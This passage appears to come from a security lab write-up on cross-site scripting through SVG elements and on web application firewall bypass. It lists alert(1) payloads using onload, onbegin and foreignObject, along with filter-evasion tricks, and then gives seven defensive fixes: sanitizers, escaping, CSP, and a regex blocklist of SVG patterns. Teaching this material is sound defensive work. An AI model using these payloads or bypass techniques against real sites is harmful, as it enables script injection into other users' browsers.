   └── ForeignObject (HTML embedding)

4. Browser support:
   └── All modern browsers fully support SVG
       └── Including JavaScript in SVG
           └── Widespread attack surface! ⚠️

5. Content-Type confusion:
   └── image/svg+xml vs text/html
       └── Different parsing rules
           └── Bypass opportunities! 💡

6. File upload vectors:
   └── SVG files often allowed (images)
       └── But can contain JavaScript
           └── Stored XSS via upload! 💣

Common SVG XSS vectors:
├── <svg onload=alert(1)>
├── <svg><script>alert(1)</script></svg>
├── <svg><animatetransform onbegin=alert(1)>
├── <svg><set onbegin=alert(1)>
├── <svg><animate onbegin=alert(1)>
├── <svg><foreignObject><script>alert(1)</script></foreignObject></svg>
└── <svg><use href="data:image/svg+xml,<svg id='x' onload=alert(1)>">#x</use></svg>
```

---

### **SVG Animation Events Reference**

```JavaScript
SVG Animation Event Handlers:

onbegin:
├── Fires: When animation starts
├── Trigger: Automatic on element render
├── Usage: <animatetransform onbegin=...>
├── User interaction: None required ✓
└── XSS potential: High 💥

onend:
├── Fires: When animation completes
├── Trigger: After duration expires
├── Usage: <animatetransform dur="1s" onend=...>
├── User interaction: None required ✓
└── XSS potential: High (delayed) 💥

onrepeat:
├── Fires: Each time animation repeats
├── Trigger: After each iteration
├── Usage: <animatetransform dur="1s" repeatCount="2" onrepeat=...>
├── User interaction: None required ✓
└── XSS potential: Medium (repeated execution) ⚡

Animation elements supporting these events:
├── <animate>
├── <animateColor>
├── <animateMotion>
├── <animateTransform>
└── <set>

All can be exploited for XSS! ✓

Other SVG events:
├── onload - SVG/element loads
├── onclick - Element clicked
├── onmouseover - Mouse over element
├── onfocusin - Element receives focus
└── Many more...

Why animation events are powerful:
└── Automatic trigger (no user interaction)
    └── Less commonly filtered than standard events
        └── Perfect for WAF bypass! 🎯
```

---

### **SVG in Different Contexts**

```HTML
Where SVG can appear:

1. Inline SVG in HTML:
   <svg>...</svg>
   └── Most common
       └── Parsed as part of HTML document ✓

2. SVG file (.svg):
   Content-Type: image/svg+xml
   └── Standalone SVG document
       └── Can contain <script> tags ✓

3. SVG in img tag:
   
   └── Scripts disabled in this context
       └── But may work with data URIs 💡

4. SVG in object/embed:
   <object data="file.svg">
   <embed src="file.svg">
   └── Scripts enabled
       └── Full XSS capability! ⚠️

5. SVG in CSS:
   background: url('data:image/svg+xml,...')
   └── Limited JavaScript
       └── But some vectors work 💡

6. SVG in iframe:
   <iframe src="file.svg">
   └── Full scripting capability
       └── Isolated context (same-origin) ✓

Security implications:
└── Context determines JavaScript execution
    └── Some contexts safer than others
        └── Understand context for exploitation! 🎯
```

---

### **WAF Bypass Strategies**

```JavaScript
Why WAFs fail against SVG:

1. Tag blacklist approach:
   └── WAF blocks: <script>, , <iframe>, etc.
       └── But SVG has 100+ unique tags
           └── Cannot blacklist all! ⚠️

2. Event handler blacklist:
   └── WAF blocks: onclick, onerror, onload
       └── But SVG has animation-specific events
           └── onbegin, onend, onrepeat overlooked! 💡

3. Context confusion:
   └── WAF analyzes HTML context
       └── SVG uses different namespace
           └── Different rules, different bypasses ✓

4. Incomplete coverage:
   └── WAF focuses on common attack vectors
       └── SVG is less commonly exploited
           └── Lower priority in WAF rules 💡

5. Legitimate use case:
   └── SVG is valid, necessary web technology
       └── Cannot block entirely
           └── Must allow some SVG functionality ✓

General WAF bypass techniques:
├── Encoding (HTML entities, Unicode)
├── Case variation (OnBeGiN)
├── Comment injection (<svg><!--><animatetransform>)
├── Null bytes (<svg\x00onload=...)
├── Newlines/tabs (<svg\nonload=...)
├── Namespace tricks (SVG vs HTML namespace)
└── Lesser-known tags/events ✓

Defense recommendations:
└── Whitelist approach instead of blacklist
    └── HTML sanitization library
        └── Strict Content Security Policy
            └── Input validation + output encoding ✓
```

---

## 🎓 **Key Learning Points**

### **1. SVG as Attack Vector**

```
Why SVG is powerful for XSS:

Graphics disguise:
└── Appears harmless (images)
    └── But JavaScript-capable
        └── Overlooked by security! ⚠️

Automatic triggers:
└── Animation events fire automatically
    └── No user interaction needed
        └── Higher success rate! ✓

Rich event model:
└── Many SVG-specific events
    └── Often not in WAF blacklists
        └── Easy bypasses! 💡

Browser support:
└── Universal SVG support
    └── Works everywhere
        └── Reliable exploitation! ✓
```

---

### **2. Systematic Enumeration**

```
Importance of methodical testing:

Tag discovery:
└── Test all possible tags
    └── Find gaps in WAF rules
        └── Identify allowed elements ✓

Event discovery:
└── Test all event handlers
    └── Find overlooked events
        └── Craft working exploit! ✓

Burp Intruder benefits:
└── Automated testing
    └── Comprehensive coverage
        └── Fast results! ⚡

Manual testing limitations:
└── Too many combinations
    └── Easy to miss bypasses
        └── Automation essential! 💡
```

---

### **3. Understanding Browser Behavior**

```
How browsers handle SVG:

Native support:
└── SVG parsed like HTML
    └── Creates DOM elements
        └── Fully interactive! ✓

JavaScript execution:
└── SVG can run JavaScript
    └── Same context as page
        └── Full XSS capability! 💥

Animation behavior:
└── Animations start automatically
    └── Event handlers fire
        └── Automatic code execution! ⚡

Namespace awareness:
└── SVG has different namespace
    └── Different parsing rules
        └── Bypass opportunities! 💡
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: Strip All SVG Tags**

```python
# ✅ SECURE - Remove all SVG content

from flask import Flask, request
import bleach

app = Flask(__name__)

# Define whitelist WITHOUT SVG tags
ALLOWED_TAGS = ['b', 'i', 'u', 'em', 'strong', 'a', 'p']
ALLOWED_ATTRIBUTES = {'a': ['href', 'title']}

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # Sanitize - strip all SVG
    clean_query = bleach.clean(
        query,
        tags=ALLOWED_TAGS,  # No SVG tags
        attributes=ALLOWED_ATTRIBUTES,
        strip=True
    )
    
    # Safe to use in HTML
    return f"<h1>Results for '{clean_query}'</h1>"

# Benefits:
# ✅ Removes ALL SVG tags
# ✅ Whitelist approach (default deny)
# ✅ Cannot bypass with SVG vectors
# ✅ Simple and effective! ✓

# Example:
# Input: "><svg><animatetransform onbegin=alert(1)>
# Output: &gt; (SVG completely removed)
# Result: Safe! ✓

# Use when:
# └── SVG not needed for functionality
#     └── Most search features don't need SVG
#         └── Strip it completely! ✓
```

---

### **Fix 2: HTML Entity Encoding**

```python
# ✅ SECURE - Encode all special characters

from flask import Flask, request
import html

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # HTML encode EVERYTHING
    safe_query = html.escape(query, quote=True)
    
    return f"<h1>Results for '{safe_query}'</h1>"

# Benefits:
# ✅ Encodes < > " ' &
# ✅ Prevents any tag creation
# ✅ Works for HTML and SVG
# ✅ Simple and foolproof! ✓

# Example:
# Input: "><svg><animatetransform onbegin=alert(1)>
# Output: &quot;&gt;&lt;svg&gt;&lt;animatetransform onbegin=alert(1)&gt;
# Display: "><svg><animatetransform onbegin=alert(1)> (as text)
# Result: Shown as text, not parsed! ✓

# Why this works:
# └── < encoded as &lt;
#     └── Browser displays < character
#         └── Does NOT parse as tag opening
#             └── Cannot create SVG elements! ✓
```

---

### **Fix 3: Content Security Policy (CSP)**

```html
<!-- ✅ SECURE - Strict CSP blocking inline handlers -->

<!-- Server sends CSP header: -->
<!-- Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' -->

<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="Content-Security-Policy" 
          content="default-src 'self'; script-src 'self'; style-src 'self'">
    <title>Search Results</title>
</head>
<body>
    <h1>Results for '...'</h1>
</body>
</html>

<!-- How CSP helps: -->
<!--
CSP blocks:
├── Inline event handlers (onbegin, onclick, etc.)
├── Inline <script> tags (including in SVG)
├── javascript: URLs
├── eval() and Function()
└── data: URIs with scripts

Even if SVG injection succeeds:
└── <svg><animatetransform onbegin=alert(1)> injected
    └── Browser parses HTML/SVG
        └── CSP blocks inline onbegin handler
            └── alert(1) never executes! ✓

Critical CSP directives:
├── default-src 'self' - Default policy for all resources
├── script-src 'self' - Only scripts from same origin
├── style-src 'self' - Only styles from same origin
├── object-src 'none' - No plugins
└── base-uri 'self' - Restrict <base> tag

NEVER use 'unsafe-inline':
└── 'unsafe-inline' allows inline handlers
    └── Defeats CSP protection completely
        └── Always use strict CSP! ✓

Defense in depth:
└── CSP + Output encoding
    └── Multiple layers
        └── Maximum protection! 💪
-->
```

---

### **Fix 4: DOMPurify Sanitization**

```javascript
// ✅ SECURE - Client-side sanitization with DOMPurify

// Include DOMPurify library
<script src="https://cdn.jsdelivr.net/npm/dompurify@2.4.0/dist/purify.min.js"></script>

<script>
// Get user input
let userInput = new URLSearchParams(window.location.search).get('search');

// Sanitize with DOMPurify
let clean = DOMPurify.sanitize(userInput, {
    ALLOWED_TAGS: ['b', 'i', 'u', 'em', 'strong'],  // No SVG tags
    ALLOWED_ATTR: [],  // No attributes
    KEEP_CONTENT: true
});

// Safe to insert into DOM
document.getElementById('results').innerHTML = 
    `<h1>Results for '${clean}'</h1>`;
</script>

// Benefits:
// ✅ Removes all SVG tags
// ✅ Removes event handlers
// ✅ Battle-tested library
// ✅ Configurable whitelist ✓

// Example:
// Input: "><svg><animatetransform onbegin=alert(1)>
// Output: &gt;
// Result: SVG completely removed! ✓

// Configuration options:
// └── ALLOWED_TAGS - Which tags to allow
//     └── ALLOWED_ATTR - Which attributes to allow
//         └── FORBID_TAGS - Tags to explicitly forbid (including SVG)
//             └── Very flexible! ✓
```

---

### **Fix 5: Server-Side Template with Auto-Escaping**

```python
# ✅ SECURE - Use template engine with auto-escaping

from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # Use template with auto-escaping
    template = """
    <!DOCTYPE html>
    <html>
    <head>
        <meta http-equiv="Content-Security-Policy" 
              content="default-src 'self'; script-src 'self'">
        <title>Search Results</title>
    </head>
    <body>
        <h1>Results for '{{ query }}'</h1>
    </body>
    </html>
    """
    
    # Flask/Jinja2 auto-escapes by default
    return render_template_string(template, query=query)

# Benefits:
# ✅ Template auto-escapes variables
# ✅ Prevents all tag injection
# ✅ CSP for defense in depth
# ✅ Secure by default! ✓

# How it works:
# └── {{ query }} is auto-escaped
#     └── <svg> becomes &lt;svg&gt;
#         └── Cannot create SVG elements
#             └── Safe! ✓

# Important:
# └── Don't use |safe filter
#     └── Don't use 
#         └── These disable protection!
#             └── Use default auto-escaping ✓
```

---

### **Fix 6: Input Validation + Output Encoding**

```python
# ✅ SECURE - Defense in depth approach

from flask import Flask, request
import html
import re

app = Flask(__name__)

def validate_search_query(query):
    """Validate search input"""
    
    # Check length
    if len(query) > 100:
        return None, "Query too long"
    
    # Reject SVG-related content
    svg_patterns = [
        r'<svg',
        r'<animatetransform',
        r'<animate',
        r'<foreignobject',
        r'onbegin',
        r'onend',
    ]
    
    for pattern in svg_patterns:
        if re.search(pattern, query, re.IGNORECASE):
            return None, "Invalid characters in query"
    
    # Reject any HTML/XML tags
    if re.search(r'<[^>]*>', query):
        return None, "HTML tags not allowed"
    
    return query, None

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # Validate input (first defense layer)
    validated_query, error = validate_search_query(query)
    
    if error:
        return error, 400
    
    # Encode output (second defense layer)
    safe_query = html.escape(validated_query)
    
    # Use CSP (third defense layer)
    response = make_response(
        f"""
        <!DOCTYPE html>
        <html>
        <head>
            <meta http-equiv="Content-Security-Policy" 
                  content="default-src 'self'; script-src 'self'">
        </head>
        <body>
            <h1>Results for '{safe_query}'</h1>
        </body>
        </html>
        """
    )
    
    return response

# Benefits:
# ✅ Input validation (reject suspicious input)
# ✅ Output encoding (encode on display)
# ✅ CSP (block inline scripts)
# ✅ Triple protection! 💪

# Defense layers:
# └── Layer 1: Input validation
#     └── Layer 2: Output encoding
#         └── Layer 3: CSP
#             └── If one fails, others protect! ✓
```

---

### **Fix 7: Remove WAF, Secure the Application**

```python
# ✅ SECURE - Proper application security (no WAF needed)

from flask import Flask, request
import html

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # Simple encoding - that's all you need!
    safe_query = html.escape(query)
    
    return f"""
    <!DOCTYPE html>
    <html>
    <head>
        <meta http-equiv="Content-Security-Policy" 
              content="default-src 'self'; script-src 'self'">
        <title>Search Results</title>
    </head>
    <body>
        <h1>Results for '{safe_query}'</h1>
    </body>
    </html>
    """

# Why WAFs fail against SVG:
# └── Blacklist approach (blocks known bad)
#     └── SVG tags overlooked
#         └── Animation events missed
#             └── Bypass achieved! ⚠️

# Better approach:
# └── Fix application code
#     └── Proper output encoding
#         └── Strict CSP
#             └── No WAF needed! ✓

# Benefits over WAF:
# ✅ No bypass possible (encoding is absolute)
# ✅ Simpler architecture
# ✅ Better performance
# ✅ More maintainable
# ✅ Actually secure! 💯

# Remember:
# └── WAF is a band-aid
#     └── Fix the root cause
#         └── Secure coding practices
#             └── Defense in depth! ✓
```

---
